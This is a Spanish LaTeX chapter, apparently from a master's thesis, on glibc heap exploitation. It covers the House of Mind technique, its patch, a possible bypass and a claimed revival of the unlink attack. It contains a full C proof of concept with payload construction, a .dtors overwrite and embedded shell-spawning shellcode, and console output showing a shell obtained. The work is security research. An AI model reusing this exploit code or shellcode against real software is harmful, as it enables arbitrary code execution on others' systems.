\lstset{language=C, caption=C�digo vulnerable para The House of Mind (malloc.c:4338) , label=code:house_of_mind_vuln}
\begin{lstlisting}
      /*
        Place the chunk in unsorted chunk list. Chunks are
        not placed into regular bins until after they have
        been given one chance to be used in malloc.
      */

      bck = unsorted_chunks(av);
      fwd = bck->fd;
      p->bk = bck;
      p->fd = fwd;
      bck->fd = p;
      fwd->bk = p;
\end{lstlisting}

En estos momentos, la utilidad de este c�digo es irrelevante. S�lo para situarse, decir que este c�digo viene despu�s de ejecutar la macro \textit{unlink} si el siguiente fragmento no est� en uso - la condici�n |!nextinuse| de la que tanto se ha hablado. \bigskip

Esta t�cnica se basa en ser capaz de controlar el valor que devuelve la macro |unsorted_chunks()| una vez se le pasa la variable |av| que no es m�s que un puntero al \textit{arena}. Si se controlara el valor del puntero |bck| es posible que con la pen�ltima instrucci�n |bck->fd = p| se pudiera sobrescribir cualquier direcci�n de memoria tal y como ocurre con la vulnerabilidad \textit{unlink}. Evidentemente, como con la vulnerabilidad \textit{unlink}, debe existir un desbordamiento de b�fer que permita sobrescribir el valor del campo |prev_size| \footnote{Debido a que el campo prev\_size es el primer campo de un fragmento de memoria.} del fragmento de memoria |p|. De este modo, controlando |bck->fd| y el contenido de la direcci�n del puntero |p| se podr�n escribir 4 bytes en cualquier direcci�n de memoria. \\
Como se puede deducir, esta t�cnica tiene, como m�nimo, las mismas precondiciones que la vulnerabilidad \textit{unlink}, sin embargo, aun queda el hecho de que se debe tener el control sobre lo que devuelve la macro |unsorted_chunks()|.\bigskip

El C�digo \ref{code:unsorted_chunks_macro} muestra la definici�n de la macro |unsorted_chunks()|. Aunque tampoco es necesario, se muestra cual es el uso de los \textit{unsorted chunks} tal y como est� comentado en el c�digo fuente.\bigskip

\lstset{language=C, caption=Macro unsorted\_chunks() (malloc.c:2052) , label=code:unsorted_chunks_macro}
\begin{lstlisting}
/*
  Unsorted chunks

    All remainders from chunk splits, as well as all returned chunks,
    are first placed in the "unsorted" bin. They are then placed
    in regular bins after malloc gives them ONE chance to be used before
    binning. So, basically, the unsorted_chunks list acts as a queue,
    with chunks being placed on it in free (and malloc_consolidate),
    and taken off (to be either used or placed in bins) in malloc.

    The NON_MAIN_ARENA flag is never set for unsorted chunks, so it
    does not have to be taken into account in size comparisons.
*/

/* The otherwise unindexable 1-bin is used to hold unsorted chunks. */
#define unsorted_chunks(M)          (bin_at(M, 1))
\end{lstlisting}

La macro |unsorted_chunks()| no hace m�s que llamar a la macro |bin_at()| pas�ndole al array de \textit{bins} un 1. La definici�n de dicha macro est� en el C�digo \ref{code:bin_at_macro}. \bigskip

\lstset{language=C, caption=Macro bin\_at() (malloc.c:1973) , label=code:bin_at_macro}
\begin{lstlisting}
/* addressing -- note that bin_at(0) does not exist */
#define bin_at(m, i) ((mbinptr)((char*)&((m)->bins[(i)<<1]) - (SIZE_SZ<<1)))
\end{lstlisting}

Reemplazando los par�metros y las constantes se obtiene que la macro |bin_at()| devuelve lo siguiente:

\lstset{language=C, caption=Macro bin\_at() reemplazada, label=code:bin_at_eq_macro}
\begin{lstlisting}
(&((av)->bins[(1)<<1]) - (4<<1))    ==>    &(av->bins[2]) - 8
\end{lstlisting}

Cabe destacar que en versiones m�s recientes de la \textit{glibc} dicha macro se ve modificada de modo que si se le pasa un 1 a la macro |bin_at| lo que se devuelve es la posici�n 0 del array de \textit{bins} y no la 2, debido a que la macro est� definida tal que as�: \bigskip

\lstset{language=C, caption=Nueva macro bin\_at(), label=code:new_bin_at_macro}
\begin{lstlisting}
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))                           \
             - offsetof (struct malloc_chunk, fd))
\end{lstlisting}

Con la macro definida de este modo, lo que se dice en los textos \cite{MM} y \cite{MDM} concuerda. Sin embargo, esto es irrelevante para entender c�mo funciona la t�cnica y qu� se ha hecho en las nuevas versiones de la \textit{glibc}. \bigskip

La macro |unsorted_chunks()| devuelve la direcci�n de |av->bins[2]| menos 8 bytes. Volviendo a la definici�n del \textit{arena}, C�digo \ref{code:malloc_state_struct}, el array de \textit{bins} est� en un offset de ''x'' bytes. El valor exacto no es necesario ahora mismo. Si el atacante fuera capaz de controlar el contenido de la direcci�n |av->bins[2]| menos 8 bytes ser�a capaz de controlar el valor del puntero |bck| al volver de la macro |unsorted_chunks()| y escribir en la direcci�n contenida por el campo |prev_size| del fragmento |p|, presumiblemente la secci�n .dtors despu�s del desbordamiento. \bigskip

Sin embargo, para poder conseguir esto, se hace evidente que se debe controlar el contenido del \textit{arena}, o sea, la variable |av| que ha entrado en juego durante toda la explicaci�n. Evidentemente, si se controlara el contenido del \textit{arena} se podr�a controlar el valor que se encuentra en la direcci�n |av->bins[2]| menos 8 bytes. Pero, evidentemente, a simple vista parece imposible controlar el contenido del \textit{arena}. Sin embargo, en el C�digo \ref{code:arena_for_chunk} de la p�gina \pageref{code:arena_for_chunk} ya se ha topado con un m�todo para conseguir dicho objetivo. \bigskip

Lo que antes era un problema, ahora se convierte en el vector de ataque. A diferencia de la t�cnica \textit{unlink}, en vez de crear un fragmento de memoria falso, se va a crear un \textit{arena} falso. Y para ello, se va aprovechar la capacidad de no utilizar el |main_arena|, sino que se buscar� un nuevo \textit{arena} a partir de la macro |heap_for_ptr()|. El C�digo \ref{code:heap_for_ptr_macro} define la macro |heap_for_ptr()|.\bigskip

\lstset{language=C, caption=Macro heap\_for\_ptr() (arena.c:104), label=code:heap_for_ptr_macro}
\begin{lstlisting}
#define heap_for_ptr(ptr) \
 ((heap_info *)((unsigned long)(ptr) & ~(HEAP_MAX_SIZE-1)))
\end{lstlisting}

El valor de |HEAP_MAX_SIZE| es de 1024 * 1024, que en binario es 1000000000000-00000000, por tanto si se le resta 1 se obtiene 11111111111111111111, que negado son 20 ceros. Por tanto, lo que hace la macro |heap_for_ptr()| es poner a 0 los �ltimos 20 bits - los de menos peso - de la direcci�n del puntero |ptr|. El \textit{arena} de dicho fragmento de memoria en realidad ser� la misma direcci�n devuelta por la macro |heap_for_ptr| ya que en la estructura |heap_info|, C�digo \ref{code:heap_info_struct}, la primera variable de la estructura es el \textit{arena}. \\
Poniendo un ejemplo, si el fragmento de memoria para el que se quiere saber su \textit{arena}, est� ubicado en la direcci�n 0x0804b208, su \textit{arena} estar� en la direcci�n 0x08000000. Evidentemente, para que se busque el \textit{arena} en vez de utilizar el arena principal, el fragmento de memoria debe tener el bit |NON_MAIN_ARENA| a 1, tal y como se explica en la p�gina \pageref{code:arena_for_chunk}. \bigskip

Ahora que todo est� explicado falta saber cual es la pieza que lo encaja todo. La clave de todo esto es entender que los primeros\footnote{Los primeros b�fers para los que un programa pide espacio.} fragmentos de memoria en un sistema sin ASLR estar�n ubicados en direcciones del estilo 0x080xxxxx y si de este fragmento se buscara su \textit{arena} siempre se obtendr�an direcciones de memoria inferiores, con lo que ser�a imposible sobrescribir los datos del \textit{arena} a trav�s de un desbordamiento de b�fer. Sin embargo, si fuera posible tener un fragmento de memoria en direcciones del estilo 0x081xxxxx, se obtendr�a que su \textit{arena} estar�a en la direcci�n 0x08100000 con lo que a trav�s de un desbordamiento en el fragmento de memoria situado en 0x080xxxxx se podr�an sobrescribir los datos del \textit{arena} situado en 0x08100000. \\
He aqu� el nuevo requisito de esta t�cnica. Por un lado se necesitan dos fragmentos de memoria igual que con \textit{unlink}, sin embargo, ahora uno de ellos debe estar ubicado en una direcci�n del estilo 0x081xxxxx.\bigskip

La Figura \ref{fig:house_of_mind} muestra un gr�fico para retratar la idea general de esta t�cnica. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/glibc/malloc_maleficarum/house_of_mind/img/basic_idea.eps}   
    \caption{Idea general sobre la t�cnica House of Mind}
    \label{fig:house_of_mind}
\end{figure}

Por un lado se tiene que el primer fragmento de memoria ser� el que se utilizar� como falso \textit{arena}. A continuaci�n se sobrescribir�n los siguientes fragmentos de memoria hasta llegar a la direcci�n 0x08100000 donde el primer valor ser� la direcci�n al primer fragmento |p1|. De este modo, cuando se libere el segundo fragmento situado en una direcci�n de memoria del estilo 0x081xxxxx se obtendr�\footnote{V�a la macro heap\_for\_ptr()} que el puntero a su \textit{arena} est� en la direcci�n 0x08100000 donde se encuentra la direcci�n a |p1| con lo que se enga�a al algoritmo de modo que piense que el contenido del \textit{arena} es el contenido del primer fragmento de memoria. Por tanto, se obtiene que con la instrucci�n |bck = unsorted_chunks(av)|, |bck| apunta a |p1|, el primer fragmento. \\
A continuaci�n se ejecuta la instrucci�n |bck->fd = p|. |bck->fd| apunta a la secci�n .dtors, por lo que al ejecutarse esta instrucci�n la secci�n .dtors ser� sobrescrita por la direcci�n a |p|, que debido a que se est� ejecutando el segundo |free()|, |p| apunta al fragmento de memoria situado en la direcci�n 0x081xxxxx.\\
Una vez el programa finalice, se ejecutar�n las instrucciones ubicadas en la direcci�n 0x081xxxxx tal y como ocurr�a con la vulnerabilidad del \textit{unlink}, con lo que se ejecutar� el |jmp 12| y luego el \textit{shellcode}. \bigskip

Destacar que hay decenas de requisitos que no se han comentado en esta explicaci�n. El uso del bit |NON_MAIN_ARENA|, los offsets exactos donde ubicar las direcciones con las que se trabaja, la direcci�n exacta en la secci�n .dtors y muchos otros detalles. S�lo se quer�a mostrar al lector c�mo funciona esta t�cnica para mostrarle c�mo los desarrolladores de la \textit{glibc} han solucionado la vulnerabilidad. Adem�s, al ser la t�cnica p�blica m�s avanzada para explotar el \textit{heap}, nos permitir� realizar ciertas reflexiones sobre c�mo continuar investigando las vulnerabilidades en la gesti�n de la memoria din�mica. \\
Para obtener todos los detalles necesarios para escribir una prueba de concepto utilizando esta t�cnica basta con leer los art�culos citados en \cite{MM}, \cite{THOM} o \cite{MDM}.

\subsubsection{Patch a la t�cnica The House of Mind}

Por desgracia, no todo lo bueno dura. En la versi�n 2.11 de la \textit{glibc} se corrigi� esta vulnerabilidad. Aun cuando la t�cnica de The House of Mind era tan compleja, los desarrolladores de la \textit{glibc} encontraron una soluci�n elegante al problema. El C�digo \ref{code:house_of_mind_patch} la muestra. \bigskip

\lstset{language=C, caption=Patch a The House of Mind, label=code:house_of_mind_patch}
\begin{lstlisting}
bck = unsorted_chunks(av);
fwd = bck->fd;
if (__builtin_expect (fwd->bk != bck, 0))
   {
      errstr = "malloc(): corrupted unsorted chunks";
      goto errout;
   }
\end{lstlisting}

Como se puede ver, la condici�n comprueba la integridad de la lista doblemente enlazada de \textit{unsorted chunks} de un modo parecido a como ocurr�a con la soluci�n para la vulnerabilidad \textit{unlink}. Evidentemente, al llevar a cabo The House of Mind la lista de \textit{unsorted chunks} no est� como deber�a con lo que la condici�n es verdadera y, por tanto, no se ejecuta la sobrescritura. \bigskip

Sin embargo, se deber�a realizar un estudio a fondo para contrastar si esta medida de seguridad realmente evita la ejecuci�n de la t�cnica The House of Mind. Partiendo de la base que la direcci�n del puntero |bck| y el contenido a donde apunta lo puede controlar el atacante, se hace evidente que se puede controlar la direcci�n de |bck->fd|, o sea, |fwd|. Sabiendo que |bck| apunta al primer fragmento de memoria, |bck->fd|, apunta a la direcci�n contenida en primer fragmento de memoria m�s 8 bytes. Para no cumplir la condici�n, la direcci�n contenida donde apunta |fwd| m�s 12 bytes deber�a ser igual a |bck|, o sea, igual a la direcci�n del primer fragmento de memoria. \bigskip

Un esquema gr�fico para evadir esta medida de seguridad se retrata en la Figura \ref{fig:bypass_patch}. En |bck->fd| se ha elegido poner la direcci�n del segundo fragmento de memoria simplemente porque es una regi�n de memoria de la que se pueden controlar sus contenidos. Se podr�a haber elegido cualquier otra direcci�n de la que se pudiera controlar los datos que contiene.\bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/glibc/malloc_maleficarum/house_of_mind/img/bypass_patch.eps}   
    \caption{Evasi�n del patch}
    \label{fig:bypass_patch}
\end{figure}

El problema viene con que el primer fragmento de memoria simula una estructura \textit{arena}. Si en dicha estructura, ah� donde se debe escribir la direcci�n hacia la regi�n de memoria que el atacante controla, o sea si en |bck->fd| hay datos relevantes para llevar a cabo la t�cnica de The House of Mind, esta evasi�n no se podr�a levar a cabo. \bigskip

Sin embargo, cogiendo la estructura \textit{arena} en la versi�n de la \textit{glibc} 2.3.5 o la 2.12.1, si la constante |THREAD_STATS| estuviera definida, en la direcci�n |bck->fd| se sobrescribir�a el valor de una de las variables para llevar a cabo c�lculos estad�sticos |stat_lock_loop| o |stat_lock_direct|, respectivamente. Por lo tanto no tendr�a que haber ning�n problema para evadir esta medida de seguridad. \\
Si la constante |THREAD_STATS| no estuviera definida, se sobrescribir�a el array de \textit{fastbins} que, teniendo en cuenta que con esta t�cnica no se utiliza para nada, no ocasionar�a ning�n problema y, por tanto, tambi�n tendr�a que permitir la evasi�n de la medida de seguridad. 

\pagebreak

\section{Reflexiones}

\subsection{Sobre Malloc Maleficarum}

Las t�cnicas retratadas en el Malloc Maleficarum, aun habi�ndose publicado en el 2005, son los m�todos m�s actuales para vulnerar la seguridad de la gesti�n de la memoria din�mica en sistemas Linux a nivel de usuario. Desde el 2005 hasta el 2009 estas t�cnicas se han ido refinando hasta hacerlas funcionales en la medida de lo posible. Aun as�, a d�a de hoy parece que estas t�cnicas no est�n presentes en el repertorio de los hackers cuando se tiene la posibilidad de desbordar b�fers en el \textit{heap}. A riesgo de cometer un error, parece ser que los \textit{exploits} p�blicos utilizando esta t�cnica son m�s bien escasos, es m�s, s�lo he sido capaz de encontrar un \textit{exploit} que utilizara esta t�cnica, tal y como he citado en el apartado correspondiente. \bigskip

Este hecho le lleva a uno a plantearse la utilidad de estas t�cnicas. �Por qu� no han tenido m�s repercusi�n o por qu� no se utilizan m�s a menudo? La primera respuesta plausible es que debido a su dificultad la mayor�a de gente se enfoca en otras metodolog�as para conseguir la ejecuci�n de c�digo arbitrario cuando descubren una vulnerabilidad, sin embargo, si se descubre un \textit{heap overflow} no hay otro modo de ejecutar c�digo arbitrario a menos que se pueda sobrescribir un puntero a una funci�n, con lo que vistas las repercusiones de desbordar un b�fer en el \textit{heap} e intentar llevar a cabo, por ejemplo, The House of Mind, no creo que nadie temiera por dificultad de la t�cnica. En resumen, entender las t�cnicas retratadas en el Malloc Maleficarum no es trivial, pero no es ni mucho menos algo tan complejo como para que al dedic�rsele un buen tiempo no se pudiera entender sin problemas. \bigskip

Lo que me lleva a lo que creo que es el principal problema de estas t�cnicas. Los requisitos que necesitan para llevarse a cabo. Por un lado, The House of Prime parece que s�lo funciona en versiones de la \textit{glibc} inferiores, las dem�s t�cnicas necesitan tener control sobre alg�n dato en el \textit{stack}, a parte de los otros muchos requisitos, y la vulnerabilidad de The House of Mind est� solucionada. Pero lo que es m�s incongruente no es todo esto, sino que por ejemplo, con la t�cnica de The House of Mind, que es la m�s conocida por ser la m�s viable se necesita conocer la direcci�n exacta de uno de los fragmentos de memoria. �Y qu� sentido tiene esto? �A caso teniendo este conocimiento no ser�amos capaces de utilizar la t�cnica \textit{unlink} como si vivi�ramos en tiempos m�s felices?  \bigskip

\subsection{Sobre Unlink}
\label{sec:about_unlink}

Las preguntas expuestas en el apartado anterior nos llevan a lo que bien podr�a ser el renacer de la t�cnica \textit{unlink}. Si es cierto que las t�cnicas del Malloc Maleficarum pueden aplicarse en \textit{software} real, lo expuesto en este apartado sin duda tendr�a que significar el resurgir de la t�cnica \textit{unlink}. Evidentemente, esta hip�tesis se fundamenta en un razonamiento sin sentido, pero dicho razonamiento se me plantea de manera obvia despu�s de haber estudiado todas estas t�cnicas. Posiblemente est� obviando alg�n dato o est� incurriendo en alg�n error en mi planteamiento porque de ser correcto significar�a que t�cnicas como The House of Mind no son m�s que un ejercicio intelectual que en nada facilitan, en comparaci�n a las t�cnicas existentes, la explotaci�n del \textit{heap}. Veamos a lo que me refiero. \bigskip

Por un lado tenemos que en The House of Mind, se necesita la direcci�n del primer fragmento de memoria, |p|. Esto es necesario para llevar a cabo la t�cnica y conseguir ejecutar c�digo arbitrario. Sin embargo, a parte de necesitar la direcci�n de |p|, Phantasmal Phantasmagoria descubri� un nuevo vector de ataque que, por desgracia, ten�a muchos otros requisitos como por ejemplo poder ubicar un fragmento de memoria en direcciones de memoria del estilo 0x081xxxxx. La t�cnica de The House of Mind, al igual que todas las otras t�cnicas del Malloc Maleficarum, eran much�simo m�s complejas que la t�cnica existente hasta el momento, con lo que, evidentemente, llevarla a cabo en un escenario real era mucho m�s dif�cil. Pero �qu� podr�amos conseguir sabiendo la direcci�n de un fragmento de memoria |p| mediante la t�cnica \textit{unlink}? \bigskip

Por un lado tenemos que \textit{unlink} dej� de ser funcional cuando la macro se modific� de tal modo que qued� tal y como se muestra en el C�digo \ref{code:unlink_check_conclusion}.\bigskip

\lstset{language=C, caption=Comprobaci�n en la macro unlink (malloc.c:1986) , label=code:unlink_check_conclusion}
\begin{lstlisting}
/* Take a chunk off a bin list */
#define unlink(P, BK, FD) {                                           \
  FD = P->fd;                                                         \
  BK = P->bk;                                                         \
  if (__builtin_expect (FD->bk != P || BK->fd != P, 0))               \
   malloc_printerr (check_action, "corrupted double-linked list", P); \
  else {                                                              \
    FD->bk = BK;                                                      \
    BK->fd = FD;                                                      \
  }                                                                   \
}
\end{lstlisting}

Si se conociera la direcci�n de |P| antes de ejecutar el exploit, tal y como es requisito en The House of Mind, �se podr�a evadir la medida de seguridad implementada en \textit{unlink}? \bigskip

Tal y como se ha detallado en otros cap�tulos, para explotar la vulnerabilidad en \textit{unlink}, el campo |fd| del fragmento a desenlazar debe apuntar a la direcci�n donde se encuentra la secci�n .dtors + 4 - 12 bytes. Para refrescar la memoria, los 4 bytes de m�s eran para sobrescribir el destructor declarado en la prueba de concepto y la resta de 12 bytes se deb�a al \textit{offset} de 12 bytes que se introduc�a con la instrucci�n |FD->bk = BK| de la macro \textit{unlink}. \bigskip

As� pues, si antes de realizar el primer |free()| que ejecutar�a la macro \textit{unlink} se sobrescribiera la direcci�n de memoria d�nde empieza la secci�n .dtors + 4 bytes con la direcci�n del fragmento |P|, la condici�n |FD->bk != P| de la nueva macro \textit{unlink} dejar�a de cumplirse ya que |FD->bk| apuntar�a a |P|. Llevar a cabo esta acci�n no ser�a un problema ya que es posible escribir en dicha direcci�n de memoria si se le asignan los permisos adecuados. \bigskip

Por otro lado, el campo |bk| del fragmento |P| apunta al \textit{shellcode} que se va a utilizar. Si en un \textit{offset} de 8 bytes desde el inicio del \textit{shellcode} se escribiera la direcci�n del fragmento |P| la condici�n |BK->fd != P| tambi�n dejar�a de cumplirse. Este paso no tiene ning�n problema ya que el contenido del \textit{shellcode} se puede controlar y los primeros 12 bytes del \textit{shellcode} son basura con lo que se pueden sobrescribir sin ning�n problema. \bigskip

Veamos si es cierto. En el C�digo \ref{code:unlink_hack} se muestra el c�digo fuente de la prueba de concepto que demuestra lo dicho hasta el momento.\bigskip

\lstset{language=C, caption=Evasi�n de las medidas de seguridad en la macro unlink , label=code:unlink_hack}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>


#define PAYLOAD_SIZE	531

void world_destruction() __attribute__((destructor));
void build_payload (char *, void *);

char shellcode[]= 	/* jmp 12 + 12 nops */
			"\xeb\x0a\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
			/* shellcode by vlan7 and sch3m4 */
			"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9"
			"\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
			"\x69\x8d\x41\x0b\x89\xe3\xcd\x80";

int main(int argc, char ** argv) {
	

	char crafted_data[700] = {0};
	
	char * ptr_1 = (char *) malloc (512);
	char * ptr_2 = (char *) malloc (512);
	
	/* Obtain the page size of the system */
	int pagesize = sysconf(_SC_PAGE_SIZE);
	if ( pagesize == -1) {
		perror("[-] Page size could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Obtain an aligned memory region in order to mprotect it */
	void * real_shell;
	if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
		perror("[+] Aligned memory could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Copy the shellcode to the executable region obtained with memalign */
	memcpy(real_shell, shellcode, sizeof(shellcode));
	/* Making  shellcode location executable */
	mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
	/* Making DTORS section writable */
	mprotect((void*)0x8049000, pagesize, PROT_WRITE);
	/* The payload is built */
	build_payload(crafted_data, real_shell);


	unsigned long * dtors_ptr = (unsigned long *)0x08049f1c;
	*dtors_ptr = (unsigned long )( ptr_2 - 0x8);
	memcpy(real_shell + 8, dtors_ptr, 4);

	memcpy(ptr_1, crafted_data, PAYLOAD_SIZE);

	free(ptr_1);
	printf("First free executed.\n");
//	free(ptr_2);	
	printf("Second free commented.\n");
	
	return 0;
}

void build_payload(char * crafted_data, void * sc_addr) {

	char str_dtor_ptr[5] = {0};
	char * seek = crafted_data;
	
	/* Trash */
	memset(seek, '@', 516); 
	seek += 516;
	/* size of second freed chunk. Hexadecimal 16 value */
	/* PREV_INUSE bit set. Avoid consolidate backward (unlink) on 2nd free */
	memcpy(seek, "\x11\x00\x00\x00", 4);
	seek += 4;
	/* fd of second freed chunk. dtors_end - 12 */
	memcpy(str_dtor_ptr, "\x10\x9f\x04\x08", 4);
	memcpy(seek, str_dtor_ptr, 4);
	seek += 4;
	/* bk of second freed chunk. Shellcode address */	
	memcpy(seek, &sc_addr, 4);
	seek += 4;
	/* Trash */
	memset(seek, '@', 12); 
	seek += 12;
	/* size of fake chunk. PREV_INUSE bit unset. -8 value */
	/* triggers unlink in the nextinuse of the first free() */
	memcpy(seek, "\xf8\xff\xff\xff", 4);
	seek += 4;
	/* Trash */
	memset(seek, '@', 12); 
	seek += 12;	
	/* Size of the second fake chunk */
	/* if the PREV_INUSE bit is set, the unlink is not triggered */
	/* in the second free()*/
	memcpy(seek, "\x41@@@", 4);
	seek += 4;
}

void world_destruction() {}
\end{lstlisting}

Como se puede ver, se utiliza la misma metodolog�a que cuando en apartados anteriores se explotaba el \textit{heap} v�a la macro \textit{unlink}. Lo cierto es que este c�digo es el que se comentaba en el apartado \ref{sec:glibc_exploiting} cuando se hablaba de utilizar un offset positivo. \\
Las l�neas 50, 51 y 52 son las que escriben la direcci�n de |P| en la secci�n .dtors y en el \textit{shellcode}. Debido a que el fragmento que se desenlaza es el siguiente a |ptr_1|\footnote{Recordar que en la t�cnica de unlink, el primer free() es el que ejecuta la sobrescritura en la secci�n .dtors.}, |P| es el fragmento de memoria donde se almacenan los datos de |ptr_2|. \\
Al ejecutarse la prueba de concepto se obtiene lo siguiente: \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto, label=out:unlink_hack]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc the_great_unlink.c -o the_great_unlink
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./the_great_unlink 
First free executed.
Second free commented.
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
\end{listing}

Como se puede ver, se ha ejecutado el \textit{shellcode}. Destacar que el segundo |free()| en el c�digo de la prueba de concepto est� comentado ya que lanzaba el error |invalid next size (fast)|. Se deber�a ajustar el \textit{payload} de modo que esto no ocurriera, sin embargo, el objetivo de este apartado ya est� cumplido. Con la ejecuci�n de s�lo un |free()| y mediante la t�cnica \textit{unlink} se ha podido ejecutar c�digo arbitrario en la \textit{glibc} 2.12.1. A parte de posibles detalles en el payload y si no se han a�adido nuevas medidas de seguridad en la macro \textit{unlink}, est� t�cnica deber�a funcionar sin ning�n problema en las versiones m�s recientes de la \textit{glibc}. \bigskip

\vspace*{2em}

Todo esto me lleva a preguntarme el porqu� de t�cnicas como The House of Mind. Evidentemente, seg�n mi opini�n, The House of Mind es una t�cnica sublime, genial. Despu�s de mucho tiempo utilizando las mismas t�cnicas para explotar el \textit{heap} apareci� el Malloc Maleficarum como si fuera una bocanada de aire fresco. Enfoc� desde otro prisma las vulnerabilidades en la gesti�n de la memoria din�mica. Abriendo nuevos caminos hacia la explotaci�n del \textit{heap}. Fue algo positivo para la comunidad. Tanto para los \textit{hackers} como para los desarrolladores de la \textit{glibc} porqu� les permiti� implementar la gesti�n de la memoria din�mica en Linux de un modo m�s robusto. Es por esto que jam�s ha sido mi intenci�n infravalorar el potencial de dichas t�cnicas, simplemente me ha sorprendido que nadie m�s haya visto o publicado la idea que aqu� se ha planteado.

\pagebreak

\section{L�neas de futuro}

Aun habiendo llevado a cabo esta investigaci�n a�n han quedado muchas cosas en el tintero. \\
Existen muchos conceptos por estudiar en cuanto a la explotaci�n del modo en que se gestiona la memoria din�mica en Linux. Por un lado, se deber�a estudiar c�mo afectan las medidas de seguridad implementadas en el sistema operativo. La principal medida de seguridad a evadir es ASLR. Debido a su uso, un mismo programa no siempre ubica las variables o los segmentos del binario en las mismas direcciones de memoria en diferentes ejecuciones. Esto hace que las diferentes t�cnicas que se han mostrado en esta investigaci�n no se puedan extrapolar directamente a los sistemas operativos m�s actuales debido a la necesidad de conocer de antemano la direcci�n de ciertos fragmentos de memoria. Con todo y con eso, existen ciertos mecanismos para evadir esta medida de seguridad. Varios investigadores han encontrado diferentes modos de vulnerar ASLR, el primero de ellos fue \cite{BPAP} y evidentemente lo public� en el \textit{ezine} Phrack. Despu�s vinieron otros como \cite{OTEOASR}, \cite{GAAIWV}, \cite{ASALR} o \cite{IE}. \\
Por tanto, el siguiente paso l�gico ser�a estudiar todos los conceptos detr�s de los mecanismos de mitigaci�n para intentar extrapolar las t�cnicas detalladas en esta investigaci�n a los sistemas operativos actuales. \bigskip

El siguiente paso ser�a estudiar a�n m�s el algoritmo \textit{ptmalloc}. El �ltimo reporte de una vulnerabilidad en el modo de gestionar la memoria din�mica en Linux data del 2005\cite{MM}. Han pasado casi 8 a�os y no se ha publicado ninguna otra vulnerabilidad. Este hecho, en el mundo de la seguridad inform�tica, es bastante ins�lito. \\
Se deber�a estudiar todos aquellos fragmentos de c�digo en los que se trabaja con los punteros a los datos del usuario. Se deber�a buscar en el c�digo fuente todas aquellas apariciones del puntero |p|, |bk| o |fd|. En el caso de que ocurriera un \textit{heap overflow} estos datos ser�an los que un atacante podr�a controlar. Se deber�an estudiar todas las operaciones que se hacen con ellos, saber cual es el flujo de ejecuci�n para llegar al punto en el que se utilizan e investigar si con esas operaciones entre los punteros en alg�n momento se escriben datos en memoria. \\
Otro vector de ataque a estudiar ser�an las posibilidades que introduce poder controlar los datos de la estructura \textit{arena} tal y como ocurre con la t�cnica The House of Mind. Pensar en la modificaci�n de los arrays de \textit{bins}, \textit{fastbins} o \textit{unsorted chunks}, de modo que dichos arrays apunten a direcciones de memoria con alg�n tipo de inter�s para poder ejecutar c�digo arbitrario al a�adir fragmentos de memoria modificados por el atacante.
Por otro lado, en estos 7 a�os pueden haber aparecido nuevos vectores de ataque. Los fragmentos de memoria actuales contienen dos campos nuevos, |fd_nextsize| y |bk_nextsize|. Estos campos tambi�n se desenlazan al ejecutar la macro \textit{unlink} as� que ser�a interesante estudiar si se pueden llevar acciones parecidas a las que se llevan a cabo con el puntero |fd| y |bk|. \bigskip

